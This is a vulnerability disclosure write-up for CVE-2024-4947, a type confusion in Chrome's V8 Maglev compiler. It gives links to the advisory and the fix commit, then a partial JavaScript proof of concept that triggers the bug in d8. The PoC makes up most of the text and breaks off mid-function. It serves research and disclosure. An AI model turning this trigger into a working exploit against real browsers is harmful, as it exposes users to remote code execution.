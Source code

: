 author: [@buptsb](https://x.com/buptsb), [@mistymntncop](https://x.com/mistymntncop) 
2024-05-19 09:07:47
https://x.com/buptsb/status/1792106425407389963

_This writeup is the FIRST public disclosure for this vulnerability._

# Info
https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_15.html
[TBD][340221135] High CVE-2024-4947: Type Confusion in V8. Reported by Vasily Berdnikov (@vaber_b) and Boris Larin (@oct0xor) of Kaspersky on 2024-05-13
Google is aware that an exploit for CVE-2024-4947 exists in the wild.

https://chromium-review.googlesource.com/c/v8/v8/+/5534518

git checkout 473318dfdb09464902c7633cad03b16431145800 -b CVE-2024-4947

# PoC

```js
// run with: `/d8 --allow-natives-syntax --maglev --expose-gc --soft-abort --trace-deopt 22.mjs`
import * as ns from "./22.mjs";

export let c = 0;

function to_fast(o) {
  var dummy = {'unique':5};
  dummy.__proto__ = o;                                                                                                                                                                                                                 
  dummy.__proto__ = o; //OptimizeAsFastPrototype
}
to_fast(ns);

function store(target, v) {
  target.c = v;
}

function createObject() {
  let a = {};
  a.i1 = 1;
  a.i2 = 1;
  a.i3 = 1;
  a.i4 = 1;
  // -----------------
  for (let i = 0; i < 8; i++) {
    a[`p${i}`] = 1;
  }
  return a;
}

function init() {
  let a = createObject();
  a.__proto__ = ns;
  // %DebugPrint(a);
  return a;
}

(function() {
  %PrepareFunctionForOptimization(store);
  store(init(), 0);
  
  %OptimizeMaglevOnNextCall(store);
  store(init(), 0);
```